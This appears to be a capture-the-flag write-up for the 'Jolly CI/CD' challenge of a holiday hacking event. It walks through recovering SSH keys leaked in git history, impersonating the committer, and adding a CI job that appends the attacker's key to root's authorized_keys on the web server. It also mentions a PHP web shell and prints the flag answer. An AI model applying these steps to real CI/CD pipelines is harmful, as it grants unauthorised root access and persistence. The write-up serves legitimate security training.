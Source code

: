 ```yaml
---
icon: simple/travisci
---
```


# Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [CI/CD terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? hint "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? hint "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    ```text
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!
    ```

### Obtain write access to the Git repository

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md) using `git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git` and taking a look at the commit history. Git repositories keep a permanent log of all changes, including mistakes like the one Tinsel made as they were explaining their CI/CD pipeline to us. Once the repository has been cloned, change to the `wordpress.flag.net.internal.git` folder and use `git log` to print commit message details.

![Commit history](../img/objectives/o7/commit_history.png){ class=border }

That *whoops* message seems to indicate someone messed up and tried to correct the problem with an update, so let's take a closer look at the previous commit to see exactly what files were changed. Use `git show abdea0ebb21b156c01f7533cea3b895c26198c98` to bring up the commit details.

??? info "Reading Git diff output"
    Git commit details include output from `git diff` which can be a little daunting to read at first. The syntax is meant to show exactly what information was added and removed from each file between different commits. Here's a [great write-up](https://levelup.gitconnected.com/what-is-git-diff-and-how-do-we-read-the-output-69f5b2036186) that can help to better understand the details of the `diff` syntax.

![Commit details](../img/objectives/o7/commit_details.png){ class=border }

Looks like Tinsel accidently added their private and public SSH keys to the git repository. We can use these files to impersonate Tinsel and clone a writable copy of the repository which we can commit our own changes to. Checkout the commit containing the SSH key files (line 3), create an `.ssh` folder (line 6), copy the private `.deploy` and public `.deploy.pub` SSH keys (lines 7-8), lock down the `.ssh` folder permissions (line 9), and configure a Git email and user name (lines 12-13). For the latter we use the *Author* information found in the git log commit details.

```shell linenums="1" title="Copy SSH keys and configure Git"
# Checkout the commit containing the SSH keys
cd ~/wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98

# Copy the SSH keys
mkdir ~/.ssh
cp ~/wordpress.flag.net.internal/.ssh/.deploy ~/.ssh/id_ed25519
cp ~/wordpress.flag.net.internal/.ssh/.deploy.pub ~/.ssh/id_ed25519.pub
chmod -R g-rwx,o-rwx ~/.ssh

# Configure Git
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

Leveraging what we learned in [Objective 5](o5.md), we can now convert the repository HTTP URL to its SSH counterpart and clone a fresh copy using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`.

![Re-clone](../img/objectives/o7/re-clone.png){ class=border }


### Exploit the CI/CD pipeline

Taking a closer look at the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci.yml) configuration file shows a `deploy-job` entry which leverages `rsync` to copy any changes from *gitlab.flag.net.internal* to *wordpress.flag.net.internal* each time a commit is pushed to the Git repository.

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html
    ```

The ability to push changes to the Git repo gives us a few options to obtain access to *wordpress.flag.net.internal*. We could have the CI/CD automation copy over a simple [PHP web shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and use [cURL](https://curl.se/) to call the web shell and remotely execute commands on the host. A slightly more robust solution is to leverage the automation pipeline to add our public SSH key to the *root* user's `authorized_keys` file which will grant us the ability to SSH into the web server with maximum privileges.

First, copy the newly obtained `~/.ssh/id_ed25519.pub` file to `~/wordpress.flag.net.internal/id_ed25519.pub`. The existing automation will ensure it ends up at `/var/www/html/id_ed25519.pub` on *wordpress.flag.net.internal*. Next, update the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci-updated.yml) config file and add a new `copy-key-job` entry that initiates an SSH session from the Gitlab host to the Wordpress host and appends the contents of `/var/www/html/id_ed25519.pub` to `/root/.ssh/authorized_keys` (lines 12-17).

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1" hl_lines="12-17"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html

    copy-key-job:
      stage: deploy
      environment: production
      script:
        - ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal
           'cat /var/www/html/id_ed25519.pub >> /root/.ssh/authorized_keys'
    ```

With the `id_ed25519.pub` file copied to our locally cloned Git repository folder and a new job entry added to `.gitlab-ci.yml` everything's in place to run our exploit. All that's left is for us to commit (lines 2-3) and push our changes (line 4) to the *gitlab.flag.net.internal* GitLab server, and wait for the updated CI/CD automation to kick off.

```shell linenums="1" title="Commit and push changes to the GitLab host"
cd ~/wordpress.flag.net.internal
git add id_ed25519.pub .gitlab-ci.yml
git commit -m 'Inconspicuous update. Please ignore!'
git push
```

It might take a few seconds, but once the CI/CD automation completes its run we should be able to remotely log in to the web server using `ssh root@wordpress.flag.net.internal`. Since we're using an interactive shell as *root* we have free reign to roam around. The flag value we need to submit on our badge can be found in the `/flag.txt` file. That [ASCII art](https://en.wikipedia.org/wiki/ASCII_art) though! :heart_eyes:

![Finding the flag](../img/objectives/o7/finding_the_flag.png){ class=border }

!!! done "Answer"
    oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT


## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
